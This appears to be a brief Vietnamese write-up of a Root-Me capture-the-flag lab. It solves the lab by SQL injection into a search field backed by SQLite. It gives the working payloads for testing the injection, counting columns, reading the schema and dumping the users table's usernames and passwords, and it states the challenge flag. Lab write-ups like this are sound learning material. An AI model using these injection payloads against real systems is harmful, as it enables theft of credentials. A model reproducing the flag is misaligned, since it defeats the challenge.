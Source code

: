 ![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/c9db1a72-e4b6-4a6b-87a5-a947b5d41ecf)

trong lab này có 3 action là news, recherche, login thì có tính năng tìm kiếm (Cherche) là detect sqli

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/2a7c6b23-cdad-4ce9-b3e0-6e1579c2c8b1)

=> nó sử dụng SQLite3
Hoặc không thì có thể thấy khi sử dụng ```' or 1=1--```

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/c97e27fb-e3ef-4405-a348-0435779e4d1c)

Khi tôi thử đến ```' order by 3--``` thì báo lỗi => có 2 cột

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/954025ba-a48a-4101-8716-187b7b696a10)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/65b06731-5751-4299-9e4a-d83947cbde99)

Sử dụng ```a’union select 1,sql FROM sqlite_master;``` => thấy tên bảng, tên cột

Sau đó chỉ cần ```a’ union select username,password FROM users--``` => flag là ```c4K04dtIaJsuWdi```

:V đến đây rồi thì dễ thôi nhưng có vẻ như lab quá lâu rồi và có vấn đề nào đó khi truy vấn tới database nên nó sẽ báo lỗi thì phải 

